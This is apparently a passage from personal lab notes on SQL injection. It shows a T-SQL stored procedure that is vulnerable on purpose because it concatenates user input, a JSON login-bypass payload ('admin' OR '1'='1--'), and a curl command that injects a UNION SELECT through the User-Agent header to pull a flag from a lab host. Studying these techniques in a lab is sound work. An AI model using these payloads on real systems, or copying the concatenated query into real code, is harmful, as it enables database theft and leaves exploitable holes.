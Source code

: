 ```php
CREATE PROCEDURE sp_getUserData
    @username NVARCHAR(50)
AS
BEGIN
    DECLARE @sql NVARCHAR(4000)
    SET @sql = 'SELECT * FROM users WHERE username = ''' + @username + ''''
    EXEC(@sql)
END
```

In this example, the stored procedure concatenates the @username parameter into a dynamic SQL query. This approach is vulnerable to SQL injection because the input is not sanitised.

### XML and JSON Injection 

Applications that parse XML or JSON data and use the parsed data in SQL queries can be vulnerable to injection if they do not properly sanitise the inputs. XML and JSON injection involves injecting malicious data into XML or JSON structures that are then used in SQL queries. This can occur if the application directly uses parsed values in SQL statements.

```php
{
  "username": "admin' OR '1'='1--",
  "password": "password"
}
```

If the application uses these values directly in a SQL query like `SELECT * FROM users WHERE username = 'admin' OR '1'='1'-- AND password = 'password'`, it could result in an injection.



### HTTP Header Injection Practice

The union needs to be the same amount of columns as the original statement which is 2 so I just did flag twice.

**Kali**

```
curl -H "User-Agent: ' UNION SELECT flag, flag FROM books where book_id=1; # " http://10.10.41.101/httpagent/
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>







